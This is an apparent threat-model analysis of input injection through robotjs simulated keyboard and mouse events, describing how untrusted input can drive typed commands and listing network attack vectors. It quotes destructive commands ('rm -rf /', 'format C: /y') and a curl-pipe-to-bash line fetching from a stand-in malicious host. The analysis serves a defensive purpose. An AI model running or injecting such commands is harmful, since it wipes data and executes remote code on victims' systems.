 ## Deep Dive Analysis: Malicious Input Injection via Simulated Events in Applications Using RobotJS

This document provides a comprehensive analysis of the "Malicious Input Injection via Simulated Events" attack surface in applications utilizing the `robotjs` library. We will delve into the mechanics of this vulnerability, explore potential attack vectors, and expand upon the provided mitigation strategies with more specific and actionable recommendations for the development team.

**Attack Surface: Malicious Input Injection via Simulated Events**

**Reiteration of the Core Vulnerability:**

The fundamental weakness lies in the potential for an attacker to manipulate the parameters used by an application to generate simulated keyboard and mouse events through `robotjs`. This manipulation occurs when the application relies on untrusted external input to determine the nature of these simulated events. Since `robotjs` directly interacts with the operating system's input mechanisms, any control over its parameters can lead to unintended and potentially harmful actions within the system and other applications.

**Deep Dive into the Vulnerability:**

The `robotjs` library provides powerful functions for programmatically controlling mouse and keyboard inputs. These functions, such as `typeString()`, `moveMouse()`, `click()`, and `keyTap()`, directly translate into operating system-level events. Crucially, `robotjs` itself does not inherently validate or sanitize the input it receives for these functions. It acts as a conduit, faithfully executing the instructions provided by the application.

The vulnerability arises when the application logic that feeds data to these `robotjs` functions is influenced by external, potentially malicious sources. If an attacker can control the strings passed to `typeString()`, the coordinates passed to `moveMouse()`, or the key combinations passed to `keyTap()`, they can effectively puppet the user's system.

**Expanding on the Example:**

The provided example of injecting commands into a terminal window is a stark illustration. Imagine an application designed to automate tasks based on user-defined scripts. If this application uses `robotjs` and allows users to define the text to be typed, a malicious user could inject commands like:

* `rm -rf /` (Linux/macOS - delete everything)
* `format C: /y` (Windows - format the primary drive)
* `curl malicious.site/payload.sh | bash` (Download and execute a malicious script)

This highlights the potential for arbitrary code execution within the context of another application, even if the `robotjs`-using application itself doesn't have direct execution capabilities.

**Attack Vectors - How an Attacker Could Exploit This:**

Beyond the basic concept, let's explore specific ways an attacker could inject malicious input:

* **Network Communication:**
    * **Unsecured APIs:** If the application exposes an API endpoint that accepts input to control simulated events without proper authentication and authorization, an attacker can directly send malicious payloads.
    * **WebSockets:**  Similar to APIs, if WebSocket communication is used to relay instructions for simulated events, vulnerabilities in the WebSocket implementation or lack of input validation can be exploited.
    * **Man-in-the-Middle Attacks:**  If communication channels are not encrypted (e.g., using HTTP instead of HTTPS), an attacker could intercept and modify the data being sent to control simulated events.
